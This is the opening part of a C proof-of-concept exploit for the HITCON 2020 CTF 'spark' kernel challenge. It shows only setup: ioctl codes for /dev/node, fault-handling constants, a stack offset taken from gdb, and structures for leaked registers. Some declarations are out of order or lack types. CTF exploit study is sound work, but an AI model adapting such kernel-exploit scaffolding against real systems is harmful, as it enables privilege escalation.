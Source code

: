 
# exploit
```exploit.c
/* This PoC is completely based on @c0m0r1 's one. (https://github.com/c0m0r1/CTF-Writeup/blob/master/hitcon2020/spark/exploit.c) */
/* Also, some of the code is quoted from demo.c distributed during the CTF by author @david942j. */

#include <stdlib.h>
#include <string.h>
#include <stdio.h>
#include <fcntl.h>
#include <unistd.h>
#include <errno.h>
#include <poll.h>
#include <assert.h>
#include <sys/ioctl.h>
#include <sys/mman.h>
#include <sys/types.h>
#include <sys/xattr.h>

// commands
#define SPARK_LINK 0x4008D900
#define SPARK_FINALIZE 0xD902
#define SPARK_QUERY 0xC010D903
#define SPARK_GET_INFO 0x8018D901
#define DEV_PATH "/dev/node"

// constants
#define PAGE 0x1000
#define FAULT_ADDR 0xdead0000
#define FAULT_OFFSET PAGE
#define MMAP_SIZE 4*PAGE
#define FAULT_SIZE MMAP_SIZE - FAULT_OFFSET
#define N 0x20

// globals
static int fd[N];
struct pt_regs lk_regs;   // leaked regs
struct node_struct fake_node0;

const spark_graph_query_stack_offset = 0xFEB0;
/*
(gdb) p $rsp
$3 = (void *) 0xffffc900001dfea0
(gdb) set $spark_graph_query=$3
(gdb) set $leaked_sp=0xffffc900001efd50
(gdb) p/x (long)$leaked_sp - (long)$spark_graph_query
$5 = 0xfeb0
*/

#define WAIT getc(stdin);
#define ulong unsigned long
#define NULL (void*)0
#define errExit(msg) do { perror(msg); exit(EXIT_FAILURE); \
                        } while (0)
ulong user_cs,user_ss,user_sp,user_rflags;
struct pt_regs {
	ulong r15; ulong r14; ulong r13; ulong r12; ulong bp;
	ulong bx;  ulong r11; ulong r10; ulong r9; ulong r8;
	ulong ax; ulong cx; ulong dx; ulong si; ulong di;
	ulong orig_ax; ulong ip; ulong cs; ulong flags;
  ulong sp; ulong ss;
};
```